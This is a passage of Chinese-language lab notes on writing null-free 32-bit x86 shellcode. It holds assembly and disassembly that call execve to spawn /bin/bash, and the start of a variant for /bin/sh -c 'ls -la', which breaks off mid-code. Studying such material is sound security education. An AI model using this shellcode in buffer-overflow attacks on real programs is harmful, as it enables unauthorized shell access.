 ```asm

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80

```

- 我们需要构造出/bin/bash\0的字符串
- 由于直接使用0会导致strcpy失败，因此可以使用移位操作获取0
- 注意到push的操作数只能是32位/64数

反汇编看一下结果，没有0字节

```
00000000 <_start>:
   0:	31 c0                	xor    eax,eax
   2:	50                   	push   eax
   3:	bb 68 68 68 68       	mov    ebx,0x68686868
   8:	c1 e3 18             	shl    ebx,0x18
   b:	c1 eb 18             	shr    ebx,0x18
   e:	53                   	push   ebx
   f:	68 2f 62 61 73       	push   0x7361622f
  14:	68 2f 62 69 6e       	push   0x6e69622f
  19:	89 e3                	mov    ebx,esp
  1b:	50                   	push   eax
  1c:	53                   	push   ebx
  1d:	89 e1                	mov    ecx,esp
  1f:	31 d2                	xor    edx,edx
  21:	31 c0                	xor    eax,eax
  23:	b0 0b                	mov    al,0xb
  25:	cd 80                	int    0x80
```

# Task 1.c

使用execve实现以下命令的执行：

```shell
/bin/sh -c "ls -la"
```

汇编代码：

```asm
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax
      push eax          ; Use 0 to terminate the string
      push "//sh"
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
        push eax

        mov eax,"##al"
        shr eax,16
        push eax

        mov eax,"ls -"
        push eax
        mov  ecx,esp ;store ls -al into ecx

```